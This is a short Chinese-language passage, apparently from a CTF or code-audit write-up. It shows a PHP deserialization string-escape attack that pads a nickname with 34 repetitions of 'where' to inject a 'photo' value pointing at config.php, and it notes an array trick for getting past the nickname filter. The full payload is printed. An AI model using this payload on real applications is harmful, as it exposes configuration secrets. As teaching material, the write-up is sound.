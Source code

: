 想要使profile.php中能够echo出config的内容在nickname这里构造自己想要的photo值

where”;s:5:”photo”;s:10:”config.php”;}

在后面一共有34个字符那么就传入34个where来进行替换逃逸

[https://www.notion.so](https://www.notion.so)

对nickname的过滤可以直接通过数组来绕过

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%205.png)

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%206.png)
